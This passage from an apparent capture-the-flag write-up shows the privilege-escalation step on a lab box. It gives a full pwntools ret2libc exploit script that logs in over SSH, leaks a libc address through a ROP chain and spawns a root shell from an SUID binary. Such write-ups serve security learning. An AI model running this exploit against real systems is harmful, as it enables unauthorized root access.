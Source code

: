 ```python
io.sendline(payload)

io.interactive()
```
This gets us a shell on the box.

# Root
Now, we could run our usual enumeration tactics but there's an suid file in our home directory named "exploit_me" which seems more important.

Running our usual checks, we see that there's no win function in this binary, no stack canary and no pie but we can cause an overflow. This setup should point to a ret2libc attack which is a relatively complex exploit, so I won't be going into too much detail explaining everything but I highly recommend doing the research on your own.
The final exploit looks something like this:
```python
from pwn import *

#initializing binary, elf, libc etc.,
context.binary = binary = './exploit_me'
context.arch = 'amd64'

elf = ELF(binary)
rop = ROP(elf)

#padding, payloads and rop calls for address leak
padding = b"A"*40
rop.call(elf.sym['puts'], [elf.got.puts])	#calling puts to get the address of puts
rop.call(elf.sym['main'])			#returning execution back to main function

payload = flat(
	padding, rop.chain())			#chaining our inital payload together

#processes, interaction, finding puts leak
shell = ssh('zeeshan', '10.10.68.38', keyfile='id_rsa', port=22)	#using ssh to login with pwntools
#io = process(binary)
io = shell.process(['sudo','./exploit_me'])	#starting process with sudo

io.recvline()
io.sendline(payload)
leak = u64(io.recvline().rstrip().ljust(8,b'\0'))
log.info(f"Found puts leak at => {hex(leak)}")

#calculating base address of libc and rebasing
#matching leaked puts address with https://libc.blukat.me/ we get the required libc(amd64)
libc = ELF('libc6_2.23-0ubuntu11.2_amd64.so', checksec=False)	
libc.address = leak - libc.sym['puts']
log.info(f"base address libc => {hex(libc.address)}")

#final payload to call /bin/sh
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)

#poping shell
io.recvline()
io.sendline(payload)

io.interactive()
``` 